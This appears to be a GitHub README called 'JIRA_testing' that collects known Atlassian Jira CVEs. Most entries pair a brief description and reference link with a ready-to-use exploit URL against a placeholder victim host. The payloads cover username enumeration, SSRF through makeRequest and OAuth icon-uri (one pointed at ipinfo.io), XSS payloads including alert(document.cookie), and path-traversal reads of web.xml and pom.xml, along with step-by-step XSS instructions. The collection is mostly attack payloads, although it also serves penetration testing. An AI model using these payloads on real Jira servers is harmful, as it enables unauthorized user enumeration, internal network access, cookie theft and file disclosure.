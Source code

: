 # JIRA_testing

### cve-2019-8449 - Username enumeration throw informaton disclosure vulnerability 

The /rest/api/latest/groupuserpicker resource in Jira before version 8.4.0 allows remote attackers to enumerate usernames via an information disclosure vulnerability. 
 https://jira.atlassian.com/browse/JRASERVER-69796
 https://victomhost/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
 
 -----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### cve-2019-8451:ssrf-response-body 
 
The /plugins/servlet/gadgets/makeRequest resource in Jira before version 8.4.0 allows remote attackers
to access the content of internal network resources via a Server Side Request Forgery (SSRF) vulnerability due to a logic bug in the JiraWhitelist class.

https://jira.atlassian.com/browse/JRASERVER-69793?jql=labels%20%3D%20
 https://victomhost/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### RCE Jira=CVE-2019–11581
 
https://hackerone.com/reports/706841

/secure/ContactAdministrators!default.jspa

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2018-20824

 vulnerable to Server Side Request Forgery (SSRF). This allowed a XSS and or a SSRF attack to be performed. More information about the Atlassian OAuth plugin issue see 
 https://ecosystem.atlassian.net/browse/OAUTH-344 . 
 When running in an environment like Amazon EC2, this flaw can used to access to a metadata resource that provides access credentials and other
 potentially confidential information. 
 
https://victomhost/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14179 :- Information disclosure

 Atlassian Jira Server and Data Center allow remote, unauthenticated attackers to view custom field names and custom SLA names via an Information Disclosure vulnerability 
 in the /secure/QueryComponent!Default.jspa endpoint.
REF=https://jira.atlassian.com/browse/JRASERVER-71536
POC: 
https://victomhost/secure/QueryComponent!Default.jspa

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14181 :- Enumerate user via information disclosure

Atlassian Jira Server and Data Center allow an unauthenticated user to enumerate users via an Information Disclosure vulnerability in the
/ViewUserHover.jspa endpoint.

Ref=https://jira.atlassian.com/browse/JRASERVER-71560?jql=text%20~%20%22cve-2020-14181%22
 POC:
https://victomhost/secure/ViewUserHover.jspa


https://victomhost/ViewUserHover.jspa?username=Admin

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

https://hackerone.com/reports/380354
CVE-2018-5230
https://jira.atlassian.com/browse/JRASERVER-67289
HOW TO EXPLOIT:
https://host/issues/?filter=-8
Go to the link above
Click the "Updated Range:" text area
Put your XSS payload in "More than [ ] minutes ago" (15 character payload limit) or in "In range [ ] to [ ]" (No length limit, ONLY put the payload in the first box)
Click Update
Payload will run. If it doesn't run chances are you used double quotes somewhere. Only use single quotes!

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### jira-unauthenticated-dashboards  

https://victomhost/rest/api/2/dashboard?maxResults=100

jira-unauth-popular-filters 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
 
 ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### jira-unauth-popular-filters 
 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
https://hackerone.com/reports/197726
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=popular
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=search

https://hackerone.com/reports/139970

https://host/secure/ConfigurePortalPages!default.jspa?view=popular
https://host/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Xss

/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert(‘XSS’)%22%3E.vm

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3403 :- user name enumeration throw information disclosure

Information disclosured vulnerability
1.()https://jira.atlassian.com/browse/JRASERVER-69242
visit the URL address,you can check the user whether is exist on this host
/rest/api/2/user/picker?query=admin

So the attacker can enumerate all existing users on this jira server.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-8442 :- information disclosure

https://jira.atlassian.com/browse/JRASERVER-69241
visit the URL address,the server will leaking some server's information

/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://blog.csdn.net/caiqiiqi/article/details/89017806
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.google.nl

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3402：[Jira]XSS in the labels gadget

/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2018-20824：[Jira]XSS in WallboardServlet through the cyclePeriod parameter

/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true


----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://ecosystem.atlassian.net/browse/OAUTH-344
 exploit an SSRF vulnerability in confluence and was able to perform several actions such as bypass any firewall/protection solutions,
 was able to perform XSPA through assessing the response times for ports, access Internal DoD Servers and internal services.

I discuss the vulnerabilities exploited in my write which you can find here, 
https://medium.com/bugbountywriteup/piercing-the-veil-server-side-request-forgery-to-niprnet-access-c358fd5e249a

https://host/plugins/servlet/oauth/users/icon-uri?consumerUri=https://ipinfo.io/json

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### username and email diclose

https://host/secure/popups/UserPickerBrowser.jspa

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Atlassian Jira Unauth User Enumeration (CVE-2020-36289) 

Jira < 8.5.13
 8.6.0 ≤ Jira < 8.13.5
 8.14.0 ≤ Jira < 8.15.1
 
 PoC:
 
 /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### [CVE-2021-26086] Jira Limited Local File Read
 
 http://host/s/1xZbMTX8rN8TQTr2s4oqjh5ntOo/_/;/WEB-INF/web.xml
 
 -----------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### [CVE-2020-29453] - Pre-Auth Limited Arbitrary File Read
 
 http://host/s/1xqVb9EKKmXG4pzui1gHeg0yrna/_/%2e/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
 
 if its not running redirecting to login panel then run it with curl
 
 -------------------------------------------------------------------------------------------------------------------------------------------------------------------
